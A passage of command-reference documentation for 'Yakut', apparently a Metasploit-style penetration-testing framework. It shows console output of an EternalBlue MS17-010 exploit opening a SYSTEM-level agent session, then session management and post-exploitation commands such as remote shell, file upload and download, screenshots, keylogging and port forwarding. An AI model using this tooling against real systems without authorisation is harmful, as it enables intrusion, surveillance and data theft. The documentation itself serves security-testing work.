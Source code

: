 ```console
yakut [exploit/windows/smb/eternalblue_ms17010] > run
[*] 10.10.10.150:445 - Launching exploit for MS17-010...
[+] 10.10.10.150:445 - Exploit successful! YakutAgent session 1 opened (192.168.1.10:4433 -> 10.10.10.150:49152)
```

### `back`

Exits the current module (or session) context and returns to the previous context (usually global or workspace).

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > back
yakut [ws:ACME_Corp_Internal] >
```

### `module reload_paths`

```console
yakut > module reload_paths
[*] Reloading modules from all paths...
[+] Found 5 new modules.
```

---

## 4. Session Management Commands

### `sessions list` or `sessions`

```console
yakut > sessions list
[*] Active sessions:
  ID  Type        Info                         Tunnel/Via   Target        User   Workspace
  --  ----        ----                         ----------   ------        ----   ---------
  1   yakut_agent Yakut Agent v0.1 (Ruby/Win)  L:eth0:4433  10.10.10.150  SYSTEM ACME_Corp_Internal
  2   shell       /bin/bash                    L:eth0:4444  10.10.20.30  www-data ACME_Corp_Internal
```

### `sessions interact` or `session <session_id>`

```console
yakut > sessions interact 1
[*] Starting interaction with session 1 (10.10.10.150:yakut_agent)...
yakut [session:1 (10.10.10.150:yakut_agent)] >
```

### Within Session Context - Examples for a `yakut_agent` session:

- `help`: List available session commands.
- `sysinfo`: Get target system information.
- `shell`: Drop into a system command shell on the target.
- `execute <command> [args...]`: Execute a command on the target.
- `ps`: List processes.
- `migrate <pid>`: Migrate the agent to another process.
- `upload <local_path> <remote_path>`: Upload a file to the target.
- `download <remote_path> [local_path]`: Download a file from the target.
- `screenshot`: Take a screenshot of the target's desktop.
- `keyscan_start` / `keyscan_dump` / `keyscan_stop`: Keylogger functionality.
- `portfwd add -L <local_port> -r <remote_host> -p <remote_port>`: Setup port forwarding.
- `module use post/...`: Load and run post-exploitation modules within the session context.
- `background` or `bg`: Background the current session and return to the previous Yakut context.
- `close` or `exit`: Terminate the current session.
